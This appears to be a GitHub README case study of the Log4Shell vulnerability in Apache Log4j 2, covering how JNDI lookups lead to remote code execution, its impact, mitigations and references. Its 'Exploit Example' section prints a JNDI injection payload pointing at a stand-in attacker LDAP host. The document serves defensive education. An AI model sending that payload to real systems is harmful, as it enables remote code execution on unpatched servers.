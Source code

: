 #  <p align="center"> Log4Shell (CVE-2021-44228) Case Study <p align="center">

## Overview
Log4Shell is a critical vulnerability discovered in the popular Java-based logging utility, Apache Log4j 2. This flaw allows remote code execution (RCE) due to improper input validation, making it one of the most severe security incidents in recent history.

- **CVE ID:** CVE-2021-44228  
- **Published Date:** December 9, 2021  
- **Severity:** Critical (CVSS Score: 10.0)  
- **Affected Versions:** Log4j 2.x (2.0–2.14.1)  

## Technical Breakdown
The vulnerability stems from the Log4j library’s handling of JNDI (Java Naming and Directory Interface) lookups. When an attacker sends a specially crafted request, Log4j resolves the malicious payload, allowing arbitrary code execution.

### Exploit Example:
```
${jndi:ldap://attacker.com/a}
```
This string exploits Log4j’s JNDI lookup feature to fetch malicious code from an attacker-controlled LDAP server.

## Impact
- **Remote Code Execution (RCE):** Full control over affected systems.
- **Widespread Exposure:** Affected countless applications and cloud services, including Apple, Twitter, and Minecraft.

## Solutions & Recommendations
1. **Upgrade Log4j:** Immediately upgrade to version 2.17.0 or later where the vulnerability is patched.
2. **Disable JNDI Lookups:** For systems where upgrading isn’t feasible:
   ```
   log4j2.formatMsgNoLookups=true
   ```
3. **Apply Network Restrictions:** Block outbound LDAP, RMI, and DNS traffic from untrusted sources.
4. **Security Monitoring:** Deploy Intrusion Detection Systems (IDS) to detect exploitation attempts.
5. **Code Review:** Audit custom applications for embedded vulnerable Log4j versions.

## Security Insights
- **Widespread Impact of Third-Party Libraries:** Vulnerabilities in common libraries can have a global effect, as seen with Log4j’s widespread usage.
- **Importance of Timely Patching:** Organizations that delayed patching faced significant risks, highlighting the need for rapid response protocols.
- **Secure Defaults Matter:** Default settings should prioritize security to prevent vulnerabilities from being exploitable by default.
  
## References
- [Apache Log4j Vulnerability Guidance](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance)  
- [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
